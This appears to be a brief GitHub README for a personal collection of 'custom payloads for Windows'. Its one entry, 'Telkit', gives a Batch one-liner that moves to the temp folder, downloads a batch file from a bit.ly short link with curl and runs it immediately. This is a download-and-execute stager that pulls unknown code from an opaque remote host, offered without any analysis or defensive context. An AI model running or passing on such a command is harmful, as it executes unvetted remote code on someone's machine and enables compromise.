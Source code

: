 # Payloads
 A collection of my custom payloads for Windows


## Telkit
[Telkit](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations.
```Batch
cmd /c cd %temp% & curl -Lo r.bat bit.ly/p-tk & r 1
```